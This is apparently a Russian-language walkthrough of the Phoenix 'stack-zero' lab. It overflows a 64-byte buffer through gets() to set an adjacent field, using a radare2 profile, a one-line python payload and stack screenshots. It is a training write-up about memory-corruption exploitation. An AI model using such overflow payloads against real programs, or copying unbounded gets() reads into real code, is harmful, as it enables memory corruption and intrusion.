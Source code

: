 Цель задания - изменить значение поля "volatile int changeme" структуры locals.

Структура имеет вид
```  
struct {
  char buffer[64];
  volatile int changeme;
} locals;
```

Уязвимое место в программе 
`gets(locals.buffer);`

Это значит, что необходимо ввести 64 байт мусора и от 1 до 4 байт не 0 значение. (т.к. поле имеет размер int (4 байта))

Для выполнения задания, необходимо заполнить поле произвольным значением отличным от 0 
`locals.changeme != 0`

Пишем профиль для rr2
```
#!/usr/bin/rarun2
stdin=/opt/phoenix/amd64/inputfileSZ
```

Заполняем файл inputfileSZ
```
python3 -c "print('A' * 64 + '\x01', end='')" > inputfileSZ
```

Получилось 
![Содержимое файла](../images/stack-zero/1.png)


Запускаем радар2
r2 -R profileSZ.rr2 -d stack-zero

Состояние стека до 
![alt text](../images/stack-zero/2.png)

Состояние стека после чтения stdin
![alt text](../images/stack-zero/3.png)

Код проверки 
![alt text](../images/stack-zero/4.png)

Содержимое регистра RAX после\
![alt text](../images/stack-zero/5.png)

Победа
![alt text](../images/stack-zero/6.png)
